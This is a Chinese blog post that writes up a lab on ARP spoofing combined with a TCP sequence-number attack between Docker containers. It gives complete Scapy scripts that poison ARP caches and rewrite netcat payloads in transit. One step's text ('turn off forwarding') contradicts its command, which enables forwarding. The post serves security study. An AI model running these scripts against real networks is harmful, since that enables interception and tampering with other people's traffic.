 ```yaml
---
layout:     post
title:      arp欺骗+TCP序列号攻击
subtitle:   arp欺骗+TCP序列号攻击
date:       2023-04-04
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - linux
---
```

# arp欺骗+TCP序列号攻击

`1.实验环境`

任意两台相互能通信的机器HostA、HostB+一台攻击机HostM。

本文在Ubuntu上创建3个docker。

IP_A=“192.168.60.2”

IP_M=“192.168.60.3”

IP_B=“192.168.60.4”

MAC_A=‘02:42:c0:a8:3c:02’

MAC_M=‘02:42:c0:a8:3c:03’

MAC_B=‘02:42:c0:a8:3c:04’

`2.攻击对象`

攻击nc连接中，A向B发送数据的过程。

```
HostA nc监听333端口：nc -lv 333
HostB nc连接333端口：nc 192.168.60.2 333
```

`3.攻击目的`

将A向B发送的数据篡改为固定的字符串'U000011222_shandianchengzi\n'。

`4.最终效果`

![](imgs/2023-04-04 20-21-58屏幕截图.png)

## 实验步骤

### 实验环境搭建

利用docker搭建3台ubuntu服务器，并且指定ip，使其能相互ping通

1.搭建网卡

docker network create --subnet=192.168.60.0/24 --gateway=192.168.60.1 docker-intranet

2.指定网卡和IP

sudo docker run -it --name=HostA --hostname=HostA --net=docker-intranet --ip=192.168.60.2 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostB --hostname=HostB --net=docker-intranet --ip=192.168.60.4 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostM --hostname=HostM --net=docker-intranet --ip=192.168.60.3 --privileged "ubuntu" /bin/bash

并在其中安装nc和python环境

```
sed -i s@/archive.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

sed -i s@/security.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

apt-get clean

apt-get update

apt install net-tools

apt-get install vim

apt-get -y install netcat-traditional

update-alternatives --config nc
```

### ARP欺骗
首先，关闭ip转发：

```
sysctl net.ipv4.ip_forward=1
```

然后，对HostA、B进行ARP欺骗，在HostM上运行ARP欺骗程序：

```
from scapy.all import *
from time import *

IP_A    = "192.168.60.2"
IP_B    = "192.168.60.4"
MAC_M     = "02:42:c0:a8:3c:03"

print("SENDING SPOOFED ARP REQUEST......")

ether = Ether()
ether.dst = "ff:ff:ff:ff:ff:ff"
ether.src = "02:42:c0:a8:3c:03"

arp = ARP()
arp.psrc  = IP_B
arp.hwsrc = MAC_M
arp.pdst  = IP_A
arp.op = 1
frame1 = ether/arp
arp2 = ARP()
arp2.psrc = IP_A
arp2.hwsrc = MAC_M
arp2.pdst = IP_B
arp2.op = 1
frame2 = ether/arp2
while 1:
  sendp(frame1)
  sendp(frame2)
  sleep(5)
```

![](imgs/2023-04-04 20-32-06屏幕截图.png)

并在AB间建立nc即时对话。

HostA运行：nc -lp 333

HostB运行：nc 192.168.60.2 333

### TCP序列号攻击

Hostm作为中间人，记录HostA发给HostB的Seq号、HostB发给HostA的Ack号，HostM用A的字符串长度计算给HostA的ACK包中的Seq和Ack，用’U000011222_shandianchengzi\n’的长度计算给HostB的Seq号，就可以伪造正确的序列号。

```
from scapy.all import *
IP_A="192.168.60.2"
IP_B="192.168.60.4"
MAC_A='02:42:c0:a8:3c:02'
MAC_M='02:42:c0:a8:3c:03'
MAC_B='02:42:c0:a8:3c:04'
temp={'SEQ':0,'ACK':0,'LEN':0,'ACK2':0}
def spoof_pkt(pkt):
  try:
    if(pkt.src==MAC_M):
      return
    if(pkt[IP].src==IP_A and pkt[IP].dst==IP_B):
      pkt.src=MAC_M
      pkt.dst=MAC_B
      temp['LEN']=len(pkt[TCP].load)
      temp['SEQ']=pkt[TCP].seq
      if(temp['ACK2']): #new
        pkt[TCP].seq=temp['ACK2'] #new
      temp['ACK']=pkt[TCP].ack
      pkt[IP].len=79
      pkt[TCP].load='U000011222_shandianchengzi\n'
      pkt.show()
    elif(pkt[IP].src==IP_B and pkt[IP].dst==IP_A):
      pkt.src=MAC_M
      pkt.dst=MAC_A
      if(pkt[TCP].seq==temp['ACK']):
        temp['ACK2']=pkt[TCP].ack #new
        pkt[TCP].ack=temp['SEQ']+temp['LEN']
    del(pkt.chksum)
    del(pkt[TCP].chksum)
    #pkt.show()
    sendp(pkt)
  except Exception as e:
    print("[-] Error = "+str(e))
    if(pkt.type!=2054 and str(e)!="load"):
      pkt.show()
    try:
      sendp(pkt)
    except Exception as e2:
      pass

f= "host "+IP_A+" and host "+IP_B+" and tcp"
pkt = sniff(filter=f,iface='eth0', prn=spoof_pkt)
```

![](imgs/2023-04-04 20-32-57屏幕截图.png)

现象

![](imgs/2023-04-04 20-21-58屏幕截图.png)
